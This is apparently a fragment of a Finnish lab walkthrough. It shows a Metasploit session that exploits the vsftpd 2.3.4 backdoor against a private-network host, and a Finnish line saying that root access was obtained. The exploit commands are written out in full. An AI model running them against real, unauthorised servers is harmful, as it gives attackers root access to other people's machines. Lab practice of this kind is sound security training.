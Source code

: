 ````
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.12.3
rhosts => 192.168.12.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
````
Yhteys on luotu ja kirjauduttu root-käyttäjänä.

<img src="/images/exploit1.png" alt="" title="" width="70%" height="70%">
<img src="/images/exploit2.png" alt="" title="" width="70%" height="70%">
